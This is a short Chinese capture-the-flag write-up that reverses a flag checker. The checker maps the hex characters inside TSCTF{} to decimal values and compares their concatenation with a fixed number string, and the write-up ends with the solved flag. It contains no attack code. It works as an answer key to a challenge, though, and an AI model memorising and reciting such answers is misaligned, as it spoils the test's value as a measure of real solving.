主要算法逻辑是判断输入字符串是否以开头和结尾TSCTF{}，并且内部的字符字符串只有0-9和a-f，对于0-9的字符，转换成对应数字，对于a-f转换成10-15的数字，将这些拼接起来判断是否与1192811610815159146852912439081023130161513相等。

根据算法手动逆推得到字符串b928b6a8ff9e68529c43908a23d016fd最后flag为 `TSCTF{b928b6a8ff9e68529c43908a23d016fd}`
